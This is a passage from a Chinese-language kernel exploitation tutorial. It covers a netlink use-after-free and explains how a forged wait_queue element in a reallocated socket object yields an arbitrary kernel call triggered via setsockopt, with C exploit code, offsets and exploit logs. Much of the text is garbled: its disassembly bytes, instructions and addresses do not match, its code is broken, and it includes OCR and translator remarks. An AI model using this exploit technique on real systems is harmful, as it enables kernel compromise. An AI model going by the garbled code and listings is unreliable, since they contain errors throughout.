ffffffff84b6ea13      9b 80 02 00         mov    WORD PTR [rdi+0x04
ffffffffffff84b6ea14      59 76 04movx,x
ffffffff84b6ea15      85 c0              test   ecx,ecx
ffffffff84b6ea16      c1 d1              or    rax,rdx
ffffffff84b6ea17      74 07              jne    0xffffff8414de
ffffffff84b6ea18      83 e9 01         xor    ecx,ecx
ffffffff84b6ea19      8b 01              mov    al,[di]
ffffffff84b6ea1a      e3 c6              sub    ecx,cl
ffffffff84b6ea1b      89 46 00         mov    rax,eax
ffffffff84b6ea1c      48 81              mov    WORD PTR [rdi+0x08]
ffffffff84b6ea1d      c9              leave
ffffffff84b6ea1e      c7 c0              ret
ffffffff84b6ea1f      48 8b 02 00   mov    WORD PTR [rdi+0x28]
ffffffff84b6ea20      48 89 56 04   mov    WORD PTR [rsi+0x04]
ffffffff84b6ea21      85 c9              test   ecx,ecx
ffffffff84b6ea22      c1 d1              or    rax,rdx
ffffffff84b6ea23      48 89 70 00   mov    WORD PTR [rdi+0x2a]
ffffffff84b6ea24      85 c9              test   ecx,ecx
ffffffff84b6ea25      bf 00              mov    edx,rax
ffffffff84b6ea26      85 c9              test   ecx,ecx
ffffffff84b6ea27      48 8b 08 00   mov    WORD PTR [rsi+0x08]
ffffffff84b6ea28      85 c9              test   ecx,ecx
ffffffff84b6ea29      c7 c0 c3              ret
```

让我们解构之前的汇编链并将其与原始的 `netlink_getname()` 函数匹配。如果你注意到 System ABI，检查。最需要记住的是参数顺序（我们有四个参数）：

1. rdi: struct socket *
2. rsi: struct sockaddr *
3. rdx: int **naddr
4. rcx: int pointer

让我们查看序函数。`0xffffff84b100ac0` 是一个空操作（检查反汇编）：

```
ffffffff84b6ea0a      55              push   rbp
ffffffff84b6ea0b      48 89 e5         mov    rbp,rsp
ffffffff84b6ea0c      e8 97 3f 05 6f   call   0xffffff84b100ac40  // <-- NOP
```

接下来，我们有 `netlink_getname()` 中的参数顺序：

```
ffffffff84b6ea9a      48 8b 47 38          mov    rax,[rdi+0x38]  // 获取
ffffffff84b6ea9b      85 c9              test   ecx,ecx
ffffffff84b6ea9c      74 c8              jne    // 测试 "peer"
ffffffff84b6ea9d      66 47 06 10 00   mov    WORD PTR [rsi],0x10  // 设置 "AF_NET*"
ffffffff84b6eaa0      66 47 06 02 00   mov    WORD PTR [rsi+0x02],0x00  // 设置 "nl_pad"
ffffffff84b6eaa1      c7 02 08 00 00 00   mov    DWORD PTR [rdi],0xc  // 设置大小(+nlad)
)
```

代码随后根据 peer 值进行分支：

```
ffffffff814b6ec0:    74 26                                     0xffffff814b6ee8: // "if (peer)"
```

如果 "peer" 不为零，则存在：

```
ffffffff814b6ec2:      89 8c 02 00                             mov edx,dword ptr [rax+0x28] // 忽略
ffffffff814b6ec3:      89 56 04                             mov [rsi+0x04],edx         // 忽略
ffffffff814b6ec4:      89 98 00                             mov edx,dword ptr [rax+0x28] // 忽略
ffffffff814b6ec5:      31                                     
ffffffff814b6ec6:      85 c0              test   ecx,ecx
ffffffff814b6ec7:      48 89 70 00   mov    WORD PTR [rdi+0x2a]
ffffffff84b6ec8:      85 c9              test   ecx,ecx
ffffffff84b6ec9:      bf 00              mov    edx,rax
ffffffff84b6eca:      85 c9              test   ecx,ecx
ffffffff84b6ec1:      48 8b 08 00   mov    WORD PTR [rsi+0x08]
ffffffff84b6ec2:      85 c9              test   ecx,ecx
ffffffff84b6ec3:      c7 c0 c3              ret
```

等待，我需要重新检查关于 netlink-pid 和 netlink-groups 的文本。OCR 文本非常混乱。让我修复它。基于原始文本的修复版本。


重新分配后的数据布局变为：



然后，检查 bool，我们通过 `getsockname()`（即 `netlink_getname()`）获取了这些值。

```c
static bool check_realloc_succeed(int sock_fd, int magic_pid, unsigned long magic_groups)
{
    struct sockaddr_nl addr;
    size_t addr_len = sizeof(addr);
    memset(&addr, 0, sizeof(addr));
    // this will invoke "netlink_getname()" (uncontrolled read)
    if (!getsockname(sock_fd, &addr, &addr_len)) {
        printf("[-] getsockname()\n");
        goto fail;
    }
    printf("addr_len = %lu\n", addr_len);
    printf("addr_nl_pid = %d\n", addr.nl_pid);
    printf("magic_pid = %d\n", magic_pid);

    if (addr.nl_pid != magic_pid) {
        printf("[-] magic PID does not match\n");
        goto fail;
    }
    if (addr.nl_groups != magic_groups) {
        printf("[-] groups pointer does not match\n");
        goto fail;
    }

    return true;
}
fail:
    return false;
}
```

最后，在 `main()` 中调用：

```c
int main(void)
{
    // ... cut ...
    reallocNOW();

    if (!check_realloc_succeed(block_fd, MAGIC_NL_PID, MAGIC_PID, MAGIC_GROUPS)) {
        printf("[-] reallocation failed\n");
        // TODO: retry the exploit
        goto fail;
    }
    printf("[+] reallocation succeed! Have fun :-\n");

    // ... cut ...
}
```

现在，重新启动。如果具体化成功，你应该应该看到消息 "[+] successful: Have fun!"。但是，如果具体化失败，你可以尝试通过重试漏洞来处理具体化失败（警告：这可能不会重新启动）。目前，我们将等待直到程序崩溃为止……

在第二种情况下，我们对伪造 "netlink-socket" 结构体的 pid 进行类型混乱（即来自 `g_alloc_data`），我们也见过它在触发不受控读取原语时出现并最终导致 `netlink_getname()`。利用我们的 UAF 原语，让我们继续。

# 任意调用原语 (Arbitrary Call Primitive)

好了，现在（希望）我们已经理解了原语以及如何使用它们（结合文件和/或套字相关问题）。我们甚至还没有通过表格中的其他悬挂指针识别出这些原语。现在是实现我们的目标了：控制内核执行流。

由于我们想要控制内核执行流，我们需要一个任意调用原语。正如提到的，我们可以通过劫持函数指针来重定向。

```c
struct netlink_socket {
    /* struct sock has to be the first member of netlink_socket **/
    struct sock {
        u32; // <-- lots of (in)direct FPs
        u32 pdi;
        u32 dst_pid;
        u32 dst_group;
        u32 flags;
        u32 subscriptions;
        u32 groups;
        unsigned long; //groups;
        unsigned long state;
        struct wait_queue_head_t; // <-- indirect FP
        struct netlink_callback; // <-- two FPs
        struct *cb_mutex;
        struct mutex;
        struct *cb_def;
        void (*netlink_rcv)(struct sk_buff *skb); // <-- one FP
    };
    struct module {
        *module;
    };
```

耶，我们有很多选择，哪一个是一个好的任意调用原语？其中一个是：（1. 调用栈较短）

- 可以从系统调用快速到达（即调用栈较短）
- 能够快速从我们调用的系统调用退出（即没有用于任意调用的“代码”）
- 可以被访问并传递了大量的内核数据结构
- 没有副作用且我们不会崩溃

最显而易见的解决方案是在 `netlink_rcv` 处放置一个任意值。这个 `FP`（函数指针）是由 `netlink_unicast_kernel()` 调用的。然而，使用这个原语有点棘手。特别是，有很多选择来调用它以及副作用。再次，这个选择并不是一个“好”调用，因为调用它很复杂，它有很多副作用，而且我们需要传递大量的代码。我们选择的解决方案是：`wait_queue_head`。嗯……它有指针吗？

```c
struct wait_queue_head {
    spinlock_t lock;
    struct list_head task_list;
};
struct *_wait_queue wait_queue_t;
```

是的，在里面这里是元素（间接函数指针））

```c
typedef int (wait_queue_func_t)(struct wait_queue_t *wait, unsigned int flags, void *key);
struct wait_queue {
    unsigned int flags;
    #define WOQ_FLAG_EXCLUSIVE 0
    void *private;
    wait_queue_func func; <-- 就是这一个！
    struct list_head task_list;
};
```

此外，我们知道这个函数会被回调到 (setopt) 第 2 部分。我们将利用此来链接到我们的 `(sets())`。如果你不记得了，编写漏洞总有多种方法。

## 控制等待元素 (Controlling Wait Element)

在上一节中，我们已经确定通过等待队列可以让我们获得任意回调，然而，等待队列本身并不区分哪些元素属于它。为了到达它们，我们需要在用户空间设置一些结构。这将需要模拟内核数据结构。我们控制 `kmalloc-124` 对象偏移量处（即等待队列“头部”）的数据。这是通过重新分配实现的。让我们回到 `netlink_sock`。一个重要点，嵌入在 `netlink_sock` 内部的不是指针！警告：注意细节（双重检查）一个字段是“嵌入的”还是“指针”，这是错误和错误的根源。让我们重写 `netlink_sock` 结构：

```c
struct netlink_sock {
    // cut ...
    unsigned long groups;
    unsigned long state;

    spinlock_t lock;
    struct list_head task_list;

    // wait_queue_head_t wait;

    struct netlink_callback *cb;
    // cut ...
}
```

让我们进一步扩展它。`spinlock_t` 实际上“仅仅”是一个 `unsigned int`（检查定义，它使用了 `list_head`）是一个包含两个指针的简单结构：

```c
struct list_head {
    struct list_head *next, *prev;
}
```

即：

```c
struct netlink_sock {
    // ... cut ...
    unsigned long groups;
    unsigned long state;

    unsigned int slack;
                                <-- wait_queue_head_t wait;
                                <-- 在此处有任意数据
    struct list_head next;
                                <-- 填充了未？检查反汇编！
                                <-- 在此处有任意数据
    struct list_head prev;
                                <-- 在此处有任意数据

    struct netlink_callback *cb;
    // ... cut ...
}
```

在重新分配时，我们必须在 `slack`、`next` 和 `prev` 字段设置某些特殊值。为了知道“什么值”，让我们记住展开所有参数时的 `__wake_common()` 调用堆栈：

- SYSCALL(setsockopt)
- netlink_set_interruptible(&nlk->wait)
- __wake_up(&nlk->wait, TASK_INTERTIBLE, 1, NULL) // <-- 解引用 "slack"
- __wake_common(&nlk->wait, TASK_INTERTIBLE, 0, NULL)

代码如下：

```c
static void wake_up_common(struct wait_queue_head_t *q, unsigned int mode,
    int intr_flags, void *key)
{
    struct wait_queue_t *curr;
    list_for_each_entry(curr, &q->task_list, task_list) {
        unsigned flags = curr->flags;
        if (curr->curr, mode, wake_flags, key) &&
        (flags | WOQ_FLAG_EXCLUSIVE) && !--exclusive)
            break;
    }
}
```

我们已经研究过这个函数。区别在于它将操纵已回收的数据（而不是合法的队列元素）。它执行了：

- [0] - 定义指向等待队列元素的指针
- [1] - 遍历 *task* 和 **next**
- [2] - 元素的 `curr`
- [3] - **curr** 函数指针
- [4] - 检查标志是否设置了 WOQ_FLAG_EXCLUSIVE 且没有更多等待项
- [5] - 如果是，则退出

最终原语将是 [3]。

注意：如果你使用 `list_for_each_safe`，请查看双向链表。

总结：

- 如果我们控制等待队列的内容，我们就有了函数指针
- 如果我们控制等待队列的内容，我们将模拟用户空间的数据
- 如果我们控制等待队列的内容，我们就有了伪造的 `netlink_sock`
- 如果我们控制等待队列的内容，我们将模拟等待头部
- 如果我们控制等待队列的内容，我们就有了任意调用原语


警告：此“虚假”文本将在下一页（例如第 4 页）中可读。这将在第 4 部分进行详细解释。

在本节中，我们将展示重新分配的 `netlink_sock` 对象的 `next` 和 `prev` 变量（即指向我们的用户态唤醒查询）。接下来，用户态唤醒查询的预设条件是：访问任意回调 `entry_save()` 并获取 `list_for_entry_callback`。实现它是恰当！

### 查找偏移量 (Find Offsets)

通过释放读取器，我们需要反汇编 `_wake_up_common()` 的代码以找到它的偏移量。首先，让我们识别一些：

```
$ grep "wake_up_common" System.map-2.6.32
fffffffff806180b t _wake_up_common
```

记住 ABI，`_wake_up_common()` 有五个参数：

- 1. rdi: wait_queue_head_t*q
- 2. rsi: unsigned int node
- 3. rdx: nr_exclusive
- 4. rcx: int flags
- 5. r8: void *key

函数从这些参数开始并将它们保存在栈上（这使得某些寄存器可用）：

```
fffffffff8061806:    89 75 cc                mov DWORD PTR [rbp-0x34],esi    // 在栈中保存 'mode'
in the stack
fffffffff8061809:    89 55 c8                mov PTR [rbp-0x38],rbx    // 在栈中保存 'nr_exc'
usive of the stack
```

```
fffffffff806180cc:    4c 8d 0f 8b                lea     r13,[rdx-0x8]      // store list
for_entry_save():
fffffffff80618d3:    48 8b 57 00                mov     QWORD PTR [rdi+0x8],rax // pos = list_f
dist in R3
fffffffff80618d4:    41 89 cf                mov     edx,edi            // save 'wake__
flags in R15
fffffffff80618d9:    48 c7 ec                mov     r14,r8            // save 'key'
in in R6
fffffffff806188a:    48 8d 42 88                lea     rax,[rsp-0x18]   // retrieve 'cu
from 'task_list':nfffffffff80618e1:    49 39 d5                push    rdx,rdx      // test "? _pos
wait_head:
fffffffff8061ebe:    48 8b 58 18                mov DWORD PTR [rbx+0x18],rbx // save 'task_l
ist in RBX
fffffffff80618f5:    74 3f                    test     al,al          // jump to error 0x1926
fffffffff80618f6:    48 83 18                sub     rbx,edx          // RBX: current
element
fffffffff80618f7:    eb a0                  xor     ebp,ebp           // start loopin
fffffffff80618f8:    00 1f 00                mov DWORD PTR [rbp+0x0],edi // 3rd argument
```

代码使用了 "curr" 指针（在第一次循环期间增加指针值），然后检查是否不是：

```
fffffffff80618fb0:    48 89 d8                mov     rax,rbx            // 在 RAX 中设置 'curr'
in in RAX
fffffffff80618fb3:    48 8d 5a e8                lea     rbx,[rbp-0x14]     // prepare "nex"
tlement in RAX
fffffffff80618fb7:    44 1b 20                mov     rdx,DWORD PTR [rax] // flags = "curr
r-flags
fffffffff80618fba:    41 89 cf                mov     edx,edi            // 4th argument
r-"key"
"key"
fffffffff80618bd0:    48 89 a4                mov     edx,r15d           // 2nd argument
wake_flags
fffffffff80618900:    89 75 cc                mov DWORD PTR [rbp-0x34],esi // 3rd argument
mode
fffffffff80618903:    48 89 c7                mov     rcx,rax            // 1st argument
"curr"
fffffffff80618906:    55 48 ff c0                mov DWORD PTR [rbp+0x0],edi // ARBITRARY CALL PRIMITIVE
```

"if()" 的每条语句都用于判断是否应该跳：

```
ffffffff81061909 85 c0               eax, eax
func() return code                     // test "curr"->
ent74 0c                   0xffffff81061919      go next el
nent
ffffffff8106190d 41 83 04 c8 01      ffffffff81061911 74 06                   ffffffff81061919      go next el
r_exclusive: 83 d6 c8 01              mov dword [rbx+0x38],    decrement "n
ffffffff81061947 74 idate               ffffffff81061926      // "break" stat
ffffffff81061919: 48 4d 43 18      mov rax,[rbx+0x18]     // "pos" = n
ffffffff8106191d: 48 5b 53               mov rdx,PTR [rbx+0x18]  // "n" = list_entry
ffffffff81061921: 49 39 35             compare to w
ffffffff81061924: 75 ca               ffffffff810618f0      // loop back (nextext_element)
```

所以，这就是队列元素的结构：

```
struct wait_queue {
    unsigned int flags;
    #define QUEUE_FLAG_EXCLUSIVE 0x01  // offset = 0x00 (padded)
    void *private;              // offset = 0x08
    wait_queue_t func;          // offset = 0x10
    struct list_head task_list; // offset = 0x18
};
```

此外，`wait_queue_head` 结构体中的 "task_list" 字段按顺序被任意调用者它使用（ffffffff81061906）。这会让调试变得困难。此外，在第 4 部分有许多必需的寄存器。

下一步是添加 `netlinkstruct` 中字段的地址。我们可以从 `netlink_wakeup_interruptible()` 中来实现：

```
static int netlink_sockopt(struct socket *sock, int level, int optname,
    char *optval, unsigned int optlen) {
    struct sock_struct *sk = sock->sk;
    struct netlink_struct *nlk = (struct netlink_struct *)optval;
    unsigned int val = 0;

    // ...
    switch (optname) {
        case NETLINK_WAKE_UP:
            if (val) {
                nlk->flags |= NETLINK_RECV_BUFF;
            } else {
                nlk->flags &= ~NETLINK_RECV_BUFF;
            }
            break;
    // ...
```
*(注：由于原文中代码部分存在不完整或截断的情况，翻译时根据上下文进行了逻辑对齐，并保持了原始结构)*


好了，既然我们已经有了这些内容，让我们在全局声明用户元素和“伪”元素：

```c
static volatile struct wait_queue g_uland_wq_elt;
static volatile struct list_head g_fake_next_elt;
```

并初始化重分配数据：

```c
#define PANIC_ADDR ((void *)0xffffff881553684)
static int init_realloc_data(void) {
    struct list *mschdr = first;
    int pid = (int)g_realloc_data[NLK_PID_OFFSET];
    void *groups = (void*)(g_realloc_data[pid]+g_realloc_data[NLK_GROUPS_OFFSET] & g_realloc_data[NLK_WAIT_OFFSET]);
    struct wait_queue *wait_head = (struct wait_queue *)NLK_WAIT;

    memset(g_realloc_data, 'A', sizeof(g_realloc_data));

    // 有必要通过 _scm_send() 中的检查
    if (first = (struct list *)mschdr) {
        first->msg = (char *)g_realloc_data;
        first->msg_level = 0;
        if (pid != SOL_SOCKET=1) // 为了“跳过” cmsg
            first->msg_type = 1; // 任意值
    }
    // 被重分配检查器使用
    pid = MAGIC_NLK;
    groups = MAGIC_NLUPS;
```

// NLK 等待队列头的第一个元素，task_list！

```c
BUILD_LIST_ON(struct wait_queue, head, task_list, list! != NLK_HEAD_LIST_OFFSET);
nlwait->wait = 0;
nlwait->task_list.next = (struct list_head)g_uland_wq_elt.task_list;
nlwait->task_list.prev = (struct list_head)g_uland_wq_elt.task_list;
```

// 初始化“伪”第二个元素（因为 list_for_each_entry_safe(safe)）

```c
g_fake_next_elt = (struct list_head)g_fake_next_elt; // 指向自己
g_fake_next_elt.prev = (struct list_head)g_fake_next_elt; // 指向自己
```

// 初始化用户元素等待队列

```c
BUILD_LIST_ON(offsetof(struct wait_queue, wait_queue) != NLK_ELMT_OFFSET);
BUILD_LIST_ON(offsetof(struct wait_queue, head) != NLK_HEAD_LIST_OFFSET);
g_uland_wq_elt.flags = WO_FLAG_EXCLUSIVE; // 设置在第一次任意调用后退出
g_uland_wq_elt.private = NULL; // 未初始化
g_uland_wq_elt.func = (void (*)())PANIC_ADDR; // 任意调用！
g_uland_wq_elt.task_list.next = (struct list_head)+&g_fake_next_elt;
g_uland_wq_elt.task_list.prev = (struct list_head)+&g_fake_next_elt;
printf("[+%p] g_uland_wq_elt.addr = %p\n", &g_uland_wq_elt.addr);
printf("[+%p] g_uland_wq_elt.func = %p\n", g_uland_wq_elt.func);

return 0;
```

看看这个是如何没有错误的（硬编码偏移量）？

重分配布局显示了：



很棒，我们现在知道重分配数据了！ :-

### 触发任意调用原语

最后，我们需要从主线程触发任意调用原语。由于我们已经知道第2部分的某部分，以下代码应该非常直观：

```c
int main(void) {
    // 略 ...

    printf("[+] reallocation succeed! Have fun :=)\n");

    // 触发任意调用原语
    val = 3535; // 需要非零
    if (_setsockopt(unblock_fd, SOL_NETLINK, NETLINK_NO_ENOBUFS, &val, sizeof(val))) {
        perror("[-] setsockopt");
        goto fail;
    }

    printf("[] we are still alive ?\n");
    PRESS_KEY();

    // ... 略 ...
}
```

### 利用结果

是时候启动漏洞并看看它是否有效了！因为内核会崩溃，你可能没有时间查看虚拟机的 dmesg 输出。强烈建议使用 netconsole！

让我们启动漏洞：

```
= CVE-2021-11176 Execute =
[+] successfully migrated to root
[+] optime=26400
[+] can use the "ancillary buffer' realization gadget;
[+] gound_we_elf_addr=0xc62828
[+] gound_we_elf_func=0xffffff8155364
[+] realization initialized
[+] initializing realization threads, wait...
[+] 300 realization threads ready!
[+] realization ready!
[+] preparing linking socket
[+] socket created (fd=3), recv_fd=604
... (省略行)
[+] socket created (fd=3), 604
... (truncated lines)
[+] gound_we_elf_addr=0xc62828
[+] gound_we_elf_func=0xffffff8155364
[+] realization initialized
[+] initializing realization threads, wait...
[+] 300 realization threads ready!
[+] realization ready!
[+] preparing linking socket
```
